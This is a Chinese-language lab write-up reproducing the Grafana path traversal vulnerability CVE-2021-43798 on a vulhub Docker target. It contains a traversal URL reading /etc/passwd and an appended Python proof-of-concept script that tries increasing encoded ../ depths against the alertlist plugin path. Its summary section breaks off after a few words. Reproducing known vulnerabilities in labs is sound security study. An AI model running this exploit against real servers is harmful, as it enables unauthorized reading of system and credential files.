 # 一、概述
* Grafana是一个跨平台的开源的度量分析和可视化工具，可以通过将采集的数据查询然后可视化的展示，并及时通知
* 我以前用Frafana其实主要是作为系统运行状态的监控，例如：磁盘、CPU、内存、IO、网络连接、带宽等，可能我用的比较低级

# 二、靶场搭建
* 这里我使用的是`vulhub`线下靶场
```
root@wq:/home/wq/vulhub/grafana/CVE-2021-43798# ls
1.png  docker-compose.yml  README.md  README.zh-cn.md
root@wq:/home/wq/vulhub/grafana/CVE-2021-43798# pwd
/home/wq/vulhub/grafana/CVE-2021-43798
root@wq:/home/wq/vulhub/grafana/CVE-2021-43798# docker-compose up -d
root@wq:/home/wq/vulhub/grafana/CVE-2021-43798# docker ps 
CONTAINER ID   IMAGE                  COMMAND     CREATED         STATUS         PORTS                                       NAMES
a00bff358259   vulhub/grafana:8.2.6   "/run.sh"   2 minutes ago   Up 2 minutes   0.0.0.0:3000->3000/tcp, :::3000->3000/tcp   cve-2021-43798_web_1
```
* 尝试访问：`http://192.168.10.134:3000`，访问成功说明靶场搭建成功
![图 8](.images/CVE-2021-43798/IMG_20220118-143053174.png)  


# 三、漏洞复现
* 漏洞发现过程：
    * 这里在访问这个地址时发现了是`Granfan`服务，猜测可能存在跨路径访问的漏洞
    * 我们是`BP`进行抓包复现
    ![图 9](.images/CVE-2021-43798/IMG_20220118-143427417.png)  
    * 编写POC进行测试：开始访问：`http://192.168.10.134:3000/public/plugins/alertlist/../../../../../../../../etc/passwd`
    ![图 10](.images/CVE-2021-43798/IMG_20220118-143710667.png)  
    * 出现以上内容存在跨路径访问漏洞

# 四、总结
* 当我们拿到

# 五、附录
* 备注：脚本有点问题，自行修改，这里只是做为参考
``` python
import time

import requests

headers = {'content-type': 'application/json',
           'User-Agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36 QIHU 360SE'
           }
def pocTest(url,cookies=""):
    for i in range(1,10):
        try:
            """
            /public/plugins/alertlist/../../../../../%2e%2e/../../etc/passwd
            """
            PATH = '%2e%2e/'*i
            urls = "{}public/plugins/alertlist/{}etc/passwd/".format(url,PATH)
            print("当前url:{}".format(urls))
            time.sleep(2)
            res = requests.get(url=urls,headers=headers,cookies=cookies)
            if "root" in res.content.decode("utf-8"):
                print("漏洞验证成功,当前请求链接为:{}".format(urls))
                print(res.content.decode("utf-8"))
        except Exception as erro:
            print(erro)

def reqCookie(url):
    try:
        res = requests.get(url=url,headers=headers,verify=False)
        print(res.status_code)
        if res.status_code == 200:
            print("访问正常")
            if res.cookies != "":
                return res.cookies.values()
            else:
                return ""
    except Exception as erro:
        print(erro)


if __name__ == "__main__":
    isCookie = False
    url = "http://192.168.10.134:3000/"
    if isCookie:
        """
        不需要带有cookies可以直接进行POC验证请求
        """
        pocTest(url)
    else:
        """
        需要带有cookies需要先get请求一次获取返回的cookies
        """
        resCookies = reqCookie(url)
        pocTest(url,cookies=resCookies)

```
